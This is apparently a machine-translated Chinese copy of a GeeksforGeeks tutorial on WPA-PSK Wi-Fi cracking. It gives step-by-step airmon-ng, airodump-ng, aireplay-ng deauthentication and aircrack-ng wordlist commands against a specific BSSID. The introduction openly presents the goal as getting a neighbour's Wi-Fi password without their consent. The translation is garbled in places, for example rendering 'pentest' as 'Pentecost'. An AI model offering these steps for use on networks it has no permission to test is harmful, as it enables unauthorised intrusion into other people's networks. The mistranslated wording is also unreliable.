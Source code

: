 # 无线五旬节基础

> 原文:[https://www.geeksforgeeks.org/wireless-pentest-basic/](https://www.geeksforgeeks.org/wireless-pentest-basic/)

**无线笔测试:**
他们中的许多人想使用 wi-fi，他们中的大多数试图黑 wi-fi 并在没有邻居确认的情况下获得密码，但是他们没有找到密码。所以在这个教程中我会帮你找到邻居的 wi-fi 密码的密码。我相信这将是一个疯狂的教程，所有人在了解之后都会喜欢。

**无线网卡:**
在这种情况下，如果你使用的是 Kali Linux 作为 VM VirtualBox 中的虚拟机，可以使用外置无线适配器。

**WPA PSK 漏洞穿越:**
这里我们将逐步讨论 WPA PSK 漏洞穿越，如下所示。

**步骤-1 :**
检查无线网卡。

![](img/5eb9f78c1e5a58496b25837c664ed17c.png)

**步骤 2 :**
运行 airmon-ng 检查并清除可能干扰操作的进程。

![](img/31dbbb228e097f1b912fffd4584e7a92.png)

**步骤 3 :**
将网络适配器置于监控模式。

![](img/f0fd8fa8d8530f2be1ab4056691dfc6e.png)

**步骤-4 :**
现在，检查可用的无线网络。

**命令–**

```
airodump-ng wlan0mon  
```

**输出:**

![](img/9edbf546ed3e2aae6e7d321e354969ad.png)

**第 5 步:**
运行下面的命令捕获流量。工作站和数据传输列表如下。

```
root@kali:~# airodump-ng -c 2 --bssid 50:D4:F7:3C:3A:76 -w capturedfile wlan0mon  
```

![](img/fbe9b2b5f53c96fe9c4dd2e13f18b41c.png)

**步骤-6 :**
运行此命令断开客户端与网络的连接，并强制其重新连接。

```
root@kali:~# aireplay-ng -0 10 -a 50:D4:F7:3C:3A:76 -c 08:D8:33:F2:3B:50 wlan0mon 
```

![](img/77ebcfae094b0d4557958a8272160f94.png)

**Step-7 :**
现在应该有一个截图文件了。目录中的 cap。

**步骤-8 :**
运行下面的命令从文件中提取密码。

```
root@kali:~# aircrack-ng -w mywordlist.txt -b 50:D4:F7:3C:3A:76 capturedfile-02.cap 
```

![](img/520797f4336fdfd1bf4fca3f96c51b07.png)